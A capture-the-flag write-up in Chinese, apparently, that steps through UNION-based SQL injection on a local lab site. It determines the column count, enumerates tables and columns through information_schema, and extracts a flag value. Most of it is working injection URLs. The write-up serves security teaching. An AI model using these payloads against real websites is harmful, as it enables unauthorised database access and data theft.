







# SQL Insert Sample

## sol

啟動容器後進入網站

`http://localhost/index.php?id=1`

把每個 id 試一次，有 id = 1, 2, 3

其中 id=3 有提示網址 `http://localhost/index.php?id=3&tips=1`

得知該頁面使用的 SQL 語句：`select * from notes where id ='3'`

由於 id 有轉字串，所以嘗試在屏蔽 `'` 號的條件下注入基本查詢

使用網址: `http://localhost/index.php?id=4%27union%20select%20*from%20notes%20where%20id=1%23`

使用 union 注入，下一段 sql 語句，這裡藏了幾個小細節，提高這句成功的機率：

1. %27 代表 `'`，%23 代表 `#`，可以屏蔽外層包覆的轉字串符號 `'<your input>'`
2. union 聯集前後語句的 col 數量要相同，但是不知道 col 數量時可以先使用相同表格取 `*` 則必然成功
3. 為了確保第二句的結果呈現，第一句 sql 的查詢結果要是空，所以使用不存在的 id 來查詢，例如 `id=4`

確保注入成功後，開始暴力測試目標表格 col 數量一次嘗試以下網址，唯一成功代表試對了，此舉在 SQL 上是強制填入數字在結果

- `http://localhost/index.php?id=4%27union%20select%201%20from%20notes%20where%20id=1%23`
- `http://localhost/index.php?id=4%27union%20select%201,2%20from%20notes%20where%20id=1%23`
- `http://localhost/index.php?id=4%27union%20select%201,2,3%20from%20notes%20where%20id=1%23`

試到三個 col 時成功了，知道 notes 表格有三個 col。

接著查詢資料庫中有那些 table，該 table 下有機個 col。

使用: `http://localhost/index.php?id=4%27union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()%23`

查找 mysql 的系統資訊，該方案用在 admin 沒有封鎖該權限時，不一定會成功。

查到 table 中除了 notes 還有表格叫 fl4g

查找 fl4g 表格的 col 名稱。

使用: `http://localhost/index.php?id=4%27union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name='fl4g'%23`

得知只要一個 col 叫做 fllllag，直接注入讀讀看

`http://localhost/index.php?id=4%27union%20select%201,fllllag,3%20from%20fl4g%23`

得到 flag 的值。
